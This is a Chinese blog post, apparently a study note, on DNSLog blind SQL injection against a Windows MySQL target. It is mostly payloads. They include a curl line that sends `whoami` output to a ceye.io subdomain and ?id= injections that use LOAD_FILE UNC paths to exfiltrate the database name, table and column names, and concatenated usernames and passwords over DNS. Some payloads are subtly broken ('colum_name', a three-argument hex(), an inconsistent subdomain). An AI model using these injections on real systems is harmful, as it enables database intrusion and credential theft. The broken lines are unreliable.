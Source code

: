 ```yaml
---
layout: post
title: 1.3.3-SQL注入-SQL盲注-Dnslog盲注
category: 
  - web安全
tags: 
  - sql注入 
  - sql盲注
abbrlink: 2964387005
date: 2018-06-23 00:00:00
description: more
---
```


> 需要目标机器时windows系统

## DnsLog盲注

### DnsLog盲注原理
![](https://coding.net/u/tea9/p/image/git/raw/master/blog_img/08/01.jpeg)
![](https://coding.net/u/tea9/p/image/git/raw/master/blog_img/08/02.jpeg)
Dnslog平台：http://ceye.io/  
![](https://coding.net/u/tea9/p/image/git/raw/master/blog_img/08/03.jpeg)



	http://ceye.io/profile
	curl mzq83x.ceye.io

![](https://coding.net/u/tea9/p/image/git/raw/master/blog_img/08/05.png)


	curl `whoami`.mzq83x.ceye.io


![](https://coding.net/u/tea9/p/image/git/raw/master/blog_img/08/06.jpeg)

![](https://coding.net/u/tea9/p/image/git/raw/master/blog_img/08/04.jpeg)




![](https://coding.net/u/tea9/p/image/git/raw/master/blog_img/08/07.jpeg)
![](https://coding.net/u/tea9/p/image/git/raw/master/blog_img/08/08.jpeg)

### DnsLog盲注方法
![](https://coding.net/u/tea9/p/image/git/raw/master/blog_img/08/09.jpeg)

	核心语法： SELECT LOAD_FILE(CONCAT('\\\\',(select database()),'.mysql.r5ourp.ceye.io\\abc'));
	sql语句不能含有特殊符号

![](https://coding.net/u/tea9/p/image/git/raw/master/blog_img/08/10.jpeg)

	查表
	?id=1' and LOAD_FILE(CONCAT('\\\\',(select table_name from information_schema.tables where table_schema=database() limit 0,1),'.mysql.r5oup.ceye.io\\abc'))--+

![](https://coding.net/u/tea9/p/image/git/raw/master/blog_img/08/11.jpeg)

![](https://coding.net/u/tea9/p/image/git/raw/master/blog_img/08/12.jpeg)

	?id=1' and LOAD_FILE(CONCAT('\\\\',(select colum_name from information_schema.columns where table_name='users' limit 5,1),'.mysql.r5ourp.ceye.io\\abc'))--+

![](https://coding.net/u/tea9/p/image/git/raw/master/blog_img/08/13.jpeg)
	
	?id=1' and LOAD_FILE(CONCAT('\\\\',(select concat(username,password) from security.users limit 0,1),'.mysql.r5ourp.ceye.io\\abc'))--+

![](https://coding.net/u/tea9/p/image/git/raw/master/blog_img/08/14.jpeg)

	?id=1' and LOAD_FILE(CONCAT('\\\\',(select concat_ws('A',username,password) from security.users limit 0,1),'.mysql.r5ourp.ceye.io\\abc'))--+

![](https://coding.net/u/tea9/p/image/git/raw/master/blog_img/08/15.jpeg)
![](https://coding.net/u/tea9/p/image/git/raw/master/blog_img/08/16.jpeg)

	?id=1' and LOAD_FILE(CONCAT('\\\\',(select hex('~',username,password) from security.users limit 0,1),'.mysql.r5ourp.ceye.io\\abc'))--+

![](https://coding.net/u/tea9/p/image/git/raw/master/blog_img/08/17.jpeg)




![](https://coding.net/u/tea9/p/image/git/raw/master/blog_img/08/18.jpeg)
![](https://coding.net/u/tea9/p/image/git/raw/master/blog_img/08/19.jpeg)

https://github.com/ADOOO/DnslogSqlinj